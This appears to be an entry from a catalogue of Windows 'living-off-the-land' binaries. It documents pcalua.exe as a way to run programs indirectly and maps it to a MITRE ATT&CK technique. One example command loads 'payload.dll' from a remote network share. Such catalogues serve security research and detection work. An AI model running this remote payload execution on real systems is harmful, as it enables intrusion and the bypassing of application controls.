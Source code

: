 ## Pcalua.exe

* Functions: Execute

```
pcalua.exe -a calc.exe    

pcalua.exe -a \\server\payload.dll    

pcalua.exe -a C:\Windows\system32\javacpl.cpl -c Java     
```

Acknowledgements:
* fab - @0rbz_    
* Kyle Hanslovan - @KyleHanslovan

Code sample:
* 

Resources:
* https://twitter.com/KyleHanslovan/status/912659279806640128

Full path:
```
c:\windows\system32\pcalua.exe
```

Notes:



 
MITRE ATT&CK:
* [Indirect Command Execution](https://attack.mitre.org/wiki/Technique/T1202)
